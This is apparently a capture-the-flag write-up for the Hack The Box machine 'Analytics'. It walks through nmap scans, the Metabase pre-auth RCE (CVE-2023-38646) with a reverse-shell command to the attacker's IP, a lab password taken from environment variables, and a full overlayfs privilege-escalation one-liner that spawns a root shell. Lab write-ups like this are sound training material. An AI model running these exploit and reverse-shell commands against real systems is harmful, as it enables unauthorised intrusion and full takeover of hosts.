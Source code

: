 # [Analytics](https://app.hackthebox.com/machines/Analytics)

```bash
nmap -p-  --min-rate 5000 10.10.11.233 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.233 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, we can see that ip address is resolved into `analytical.htb`, let's add this record into `/etc/hosts` file for resolving purposes.

While we try to `login`, we got `data.analytical.htb` domain name, let's add this also into `/etc/hosts` file.


That's Metabase.

![alt text](img/image-2.png)


While I search publicly-known exploit, I find [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc).

Let's use this exploit.

For this, I need to get `setup-token` value from `/api/session/properties` endpoint.

![alt text](img/image-3.png)

```bash
python3 main.py -u http://data.analytical.htb -t '249fa03d-fd94-4d5b-b94f-b4ebf3df681f' -c 'sh -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

![alt text](img/image-5.png)

Hola! I got reverse shell from port `1337`.


![alt text](img/image-4.png)

By running `hostname` command, I see that it is `container` machine.

![alt text](img/image-6.png)


Let's enumerate machine, I look at environment variables by browsing `/proc/self/environ`. I find sensitive credentials from this file.

![alt text](img/image-7.png)


metalytics: An4lytics_ds20223#

Let's test this credentials against our machine via `ssh`.

user.txt

![alt text](img/image-8.png)


For `Privilege Escalation`, I just run `uname -a` to learn all information about this machine.

![alt text](img/image-9.png)


While I search this machine's properties, I find publicly known exploit whose CVE-id is [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

![alt text](img/image-10.png)


Let's use this payload for `privilege escalation`.
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```


root.txt

![alt text](img/image-11.png)